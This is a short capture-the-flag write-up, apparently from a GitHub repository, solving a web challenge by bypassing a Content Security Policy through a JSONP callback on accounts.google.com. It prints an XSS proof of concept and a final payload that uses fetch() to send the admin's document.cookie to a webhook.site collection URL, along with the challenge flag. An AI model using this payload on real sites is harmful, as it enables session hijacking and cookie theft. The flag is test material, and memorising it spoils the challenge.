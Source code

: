 # webhacking CHILD Solution

Here we can run scripts only from the subdomain of `*.google.com`.

However, using this github repo [JSONBee](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt), we can find snippets that let us run our code :)

I am using this snippet:
```
<script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1)"></script>
```

And, as you can see:
![XSS poc](./images/CHILD_xss_poc.png)



This will be our payload to the admin:
```
?inject=?inject=<script%20src="https://accounts.google.com/o/oauth2/revoke?callback=fetch(%27https://webhook.site/b9845d0e-4624-4ee7-89c9-90bfd2b1d3eb/?cookies=%27%252bdocument.cookie);"></script>
```
notice to base encode `+` twice.


![win picutre](./images/CHILD.png)


**Flag:** ***`FLAG{I_hacked_google.com_and_it_was_ezpz}`*** 
